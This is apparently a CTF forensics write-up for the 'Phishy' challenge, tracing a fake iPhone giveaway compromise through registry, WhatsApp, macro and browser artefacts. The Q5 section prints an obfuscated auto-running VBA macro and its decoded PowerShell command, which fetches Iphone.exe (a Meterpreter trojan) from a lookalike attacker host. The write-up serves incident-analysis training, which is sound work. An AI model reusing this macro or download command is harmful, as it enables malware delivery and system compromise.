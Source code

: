 ```yaml
---
title: "Cyberdefenders · Digital Forensics · Phishy"
date: 2023-08-04T19:16:00+03:00
draft: false
---
```


The scenario:

> A company’s employee joined a fake iPhone giveaway. Our team took a disk image of the employee's system for further analysis.
As a soc analyst, you are tasked to identify how the system was compromised.

## Abstract

In this article, I investigate a cyber incident involving a fake iPhone giveaway that targeted an employee at a company. As a SOC analyst, my mission is to determine how the system was compromised. Through careful analysis, I uncover the victim machine's hostname, identify the messaging app installed as WhatsApp, and trace the malicious download URL used by the attacker. 

The investigation reveals that the attacker used obfuscated macros in a document to execute a program named "Iphone.exe," downloaded from "http[:]//appIe.com/Iphone.exe." The malware is identified as a Meterpreter trojan created using the Metasploit framework. The attacker's IP address is found to be 155.94.69.27. Moreover, I discover the URL of the login page used in the fake giveaway as "http[:]//appIe.competitions.com/login.php," and the password submitted to this page is obtained using the PasswordFox tool. Here is why you should to raise awareness against phishing, consequences could be harmfull.

![Illustration of an old hook.](/img/write-up/hook.jpg)

<figcaption>Illustration of an old hook.</figcaption>

## Q1. What is the hostname of the victim machine?

Autopsy seems to not support the AD1 format. So I extracted the `SYSTEM` Windows Registry located at `Windows/System32/config/` using FTKImager. After, you can open it with various tools such as [RegistryExplorer from Eric Zimmerman](https://ericzimmerman.github.io/#!index.md) or [AccessData Registry Viewer](https://accessdata-registry-viewer.software.informer.com/download/).

According to [this post](https://superuser.com/questions/1539088/find-hostname-of-an-windows-image), the machine name is located here: `SYSTEM\ControlSet00X\Control\ComputerName\ComputerName`. The path is a little bit different but it's still the same logic: `WIN-NF3JQEU4G0T`.

## Q2. What is the messaging app installed on the victim machine?

Firstly, I tried to use [Autopsy](https://www.autopsy.com/) on this challenge, without success. Launching ingest module on the provided file only returns some email related strings, this is where I found the messaging app; WhatsApp. The "academic" method would be to look in `Program Files` and `Program Files (x86)` but there is nothing related to a messaging app. Sometimes, programs are installed directly on the user directory: `Users/Semah/AppData/Local/`, here you can find the WhatsApp directory.

## Q3. The attacker tricked the victim into downloading a malicious document. Provide the full download URL.

Firstly, I extracted all the WatsApp databases located at: `Users/AppData/Roaming/WhatsApp/Databases` and opened it with [sqliteviewer.app](https://sqliteviewer.app/). I found a conversation inside `msgstore.db > message_ftsv2` with this message: 

> okay you can check this file below :  https : / / drive.google.com / file / d / 1l1xn6r - za4w1me2uze8lxh45gfhsw66d / view ? usp = sharing readme.txt https : / / drive.google.com / file / d / 1l1xn6r - za4w1me2uze8lxh45gfhsw66d / view ? usp = sharing & usp = embed_facebook

Unfortunately, this is not the answer.

I finally found this fantastic tool: [WhatsApp Viewer](https://andreas-mausch.de/whatsapp-viewer/) which is very easy to use. When I opened the `msgstore.db`, the tool found an another discussion with the answer: `http[:]//appIe.com/IPhone-Winners.doc`. I wanted to know why I was unable to find theses messages. In fact, the messages was located in... `message` table, I just didn't saw them because of the interface! Lesson learned, be carreful and look for the good tool first.

## Q4. Multiple streams contain macros in the document. Provide the number of the highest stream.

Using the [Oledump python script](https://blog.didierstevens.com/programs/oledump-py/), you can find that the highest stream which contains macro (marqued with the "M" letter in the output bellow), is 10.

```
python oledump_V0_0_75\oledump.py export-folder\IPhone-Winners.doc

  1:       114 '\x01CompObj'
  2:      4096 '\x05DocumentSummaryInformation'
  3:      4096 '\x05SummaryInformation'
  4:      8473 '1Table'
  5:       501 'Macros/PROJECT'
  6:        68 'Macros/PROJECTwm'
  7:      3109 'Macros/VBA/_VBA_PROJECT'
  8:       800 'Macros/VBA/dir'
  9: M    1170 'Macros/VBA/eviliphone'
 10: M    5581 'Macros/VBA/iphoneevil'
 11:      4096 'WordDocument'
```

## Q5. The macro executed a program. Provide the program name?

First, you have to extract both of the macros:

```
$ python oledump_V0_0_75\oledump.py -s 10 -v export-folder\IPhone-Winners.doc

Attribute VB_Name = "iphoneevil"
Function lllllllll1l()
    Dim lllllllllll As String
    Dim llllllllll1 As String
    lllllllllll = Chr(97) [...] Chr(65)
    llllllllll1 = Chr(112) [...] Chr(100) & lllllllllll
    CreateObject(Chr(87) & Chr(83) & Chr(99) & Chr(114) & Chr(105) & Chr(112) & Chr(116) & Chr(46) & Chr(83) & Chr(104) & Chr(101) & Chr(108) & Chr(108)).Run llllllllll1, 0, True
End Function

$ python oledump_V0_0_75\oledump.py -s 9 -v export-folder\IPhone-Winners.doc

Attribute VB_Name = "eviliphone"
Attribute VB_Base = "1Normal.ThisDocument"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = True
Attribute VB_TemplateDerived = True
Attribute VB_Customizable = True
Private Sub _
Document_open()
lllllllll1l
End Sub
```

The stream number 10 is obfuscated. I translated all the `Chr` function parameter into ASCII values and observed that it looks like base64. Here is the decoded payload (last line of the 10th stream) :

```
CreateObject(WScript.Shell).Run invoke-webrequest - Uri   'http://appIe.com/Iphone.exe' -OutFile 'C:\Temp\IPhone.exe' -UseDefaultCredentialÀ, 0, True
```

The malicious macro launch a downloading from the same domain as the user downloaded the infectied doc file, using Powershell.

## Q6. The macro downloaded a malicious file. Provide the full download URL.

Already answered in the previous question.

## Q7. Where was the malicious file downloaded to? (Provide the full path)

Already answered in the previous question.

## Q8. What is the name of the framework used to create the malware?

My antivirus gives me the answer as it deleted the file with a pop-up showing that the malware is a Meterpreter trojan. An other way is to calculate the Iphone.exe's hash and search on VirusTotal, you will see that the program is related to Meterpreter too. A third way is to extract the file and extract the strings inside, I'm pretty sure that you will find Meterpreter inside. Unfortunately my AV doesn't want to extract the file so I will consider this solution as valid too.

An internet research about "Meterpreter framework" gives the framework name: Metasploit.

## Q9. What is the attacker's IP address?

VT provides various IoCs related to this malware, like these IP addresses:

- 155.94.69.27

- 192.168.0.30	

- 192.229.221.95	

- 20.99.133.109	

- 23.216.147.76	

- 52.185.73.156	

Thanks to the answer pattern you can easily identifie the correct one. Otherwise, a string extraction should provides IP addresses too.

## Q10. The fake giveaway used a login page to collect user information. Provide the full URL of the login page?

I was stucked on this question for a while. I found the history database located at `C:\Users\<username>\AppData\Roaming\Mozilla\Firefox\Profiles\<profile folder>\places.sqlite` into the `moz_places` table but when I wanted to open it with a SQLite viewer I didn't see the answer. I saw a weird domain named `https://for1.q21.ctfsecurinets.com` and when I opened the **same** file with Autopsy I saw the answer: `http://appIe.competitions.com/login.php`.

I don't know why both software didn't see the same data, maybe it's because Autopsy process the `places.sqlite` with other files but it's still weird because with Autopsy I don't see `https://for1.q21.ctfsecurinets.com`.

## Q11. What is the password the user submitted to the login page?

I used [PasswordFox](https://www.nirsoft.net/utils/passwordfox.html), selected the profile folder and opened it with the tool, the password is displayed on the screen.
